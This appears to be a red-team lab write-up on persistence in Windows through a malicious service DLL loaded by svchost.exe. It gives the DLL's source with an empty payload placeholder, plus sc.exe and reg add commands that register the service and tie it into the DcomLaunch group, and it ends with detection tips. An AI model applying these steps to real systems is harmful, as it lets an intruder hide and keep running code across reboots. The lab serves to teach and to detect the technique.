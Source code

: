 # Persisting in svchost.exe with a Service DLL

This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process.

## Overview

At a high level, this is how the technique works:

1. Create a service `EvilSvc.dll` DLL \(the DLL that will be loaded into an `svchost.exe`\) with the code we want executed on each system reboot
2. Create a new service `EvilSvc` with `binPath= svchost.exe`
3. Add the `ServiceDll` value to `EvilSvc` service and point it to the service DLL compiled in step 1
4. Modify `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` to specify under which group your service should be loaded into
5. Start `EvilSvc` service
6. The `EvilSvc` is started and its service DLL `EvilSvc.dll` is loaded into an `svchost.exe`

## Walkthrough

### 1. Compile Service DLL

First of, let's compile our service DLL as EvilSvc.dll. This DLL is going to be loaded into an `svchost.exe` as part of our service `EvilSvc` that we will register in a second:

```cpp
#include "pch.h"
#define SVCNAME TEXT("EvilSvc")

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle;
HANDLE stopEvent = NULL;

VOID UpdateServiceStatus(DWORD currentState)
{
    serviceStatus.dwCurrentState = currentState;
    SetServiceStatus(serviceStatusHandle, &serviceStatus);
}

DWORD ServiceHandler(DWORD controlCode, DWORD eventType, LPVOID eventData, LPVOID context)
{
    switch (controlCode)
    {
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_SHUTDOWN:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_PAUSE:
            serviceStatus.dwCurrentState = SERVICE_PAUSED;
            break;
        case SERVICE_CONTROL_CONTINUE:
            serviceStatus.dwCurrentState = SERVICE_RUNNING;
            break;
        case SERVICE_CONTROL_INTERROGATE:
            break;
        default:
            break;
    }

    UpdateServiceStatus(SERVICE_RUNNING);

    return NO_ERROR;
}

VOID ExecuteServiceCode()
{
    stopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    UpdateServiceStatus(SERVICE_RUNNING);

    // #####################################
    // your persistence code here
    // #####################################

    while (1)
    {
        WaitForSingleObject(stopEvent, INFINITE);
        UpdateServiceStatus(SERVICE_STOPPED);
        return;
    }
}

extern "C" __declspec(dllexport) VOID WINAPI ServiceMain(DWORD argC, LPWSTR * argV)
{
    serviceStatusHandle = RegisterServiceCtrlHandler(SVCNAME, (LPHANDLER_FUNCTION)ServiceHandler);

    serviceStatus.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
    serviceStatus.dwServiceSpecificExitCode = 0;

    UpdateServiceStatus(SERVICE_START_PENDING);
    ExecuteServiceCode();
}
```

### 2. Create EvilSvc Service

Let's now create a new service called `EvilSvc` and specify the `binPath` to be `svchost.exe -k DcomLaunch`, which will tell Service Control Manager that we want our `EvilSvc` to be hosted by `svchost.exe` in a service group called `DcomLaunch`:

```text
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

### 3. Modify EvilSvc - Specify ServiceDLL Path

Next, inside `HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\`, create a new value called `ServiceDll` and point it to the EvilSvc.dll service DLL compiled in step 1:

```text
reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

{% hint style="warning" %}
`EvilSvc.dll` must exist in `C:\Windows\system32\EvilSvc.dll`
{% endhint %}

At this point, our `EvilSvc` should be created with all the right parameters as seen in the registry:

![](../../.gitbook/assets/image%20%28710%29.png)

### 4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our `EvilSvc`should load. 

We want it to get loaded in the `DcomLaunch` group, so we need to add our service name `EvilSvc` in the list of services in the `DcomLaunch` value in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`:

![](../../.gitbook/assets/image%20%28584%29.png)

### 5. Start EvilSvc Service

We can now try loading our `EvilSvc` service:

```text
sc.exe start EvilSvc
```

`EvilSvc` is now loaded into svchost.exe as part of a `DcomLauncher` services group:

![](../../.gitbook/assets/image%20%28643%29.png)

## Detection

Below are some initial thoughts on how one could start hunting for this technique:

* Recently created services with `svchost.exe` as a `binpath`
* Listing out ServiceDLL value for all system services and looking for DLLs that are loaded from suspicious locations \(i.e non c:\windows\system32\): `Get-ItemProperty hklm:\SYSTEM\ControlSet001\Services\*\Parameters | ? { $_.servicedll } | select psparentpath, servicedll`

![EvilSvc.dll location sticking out](../../.gitbook/assets/image%20%28678%29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function" %}


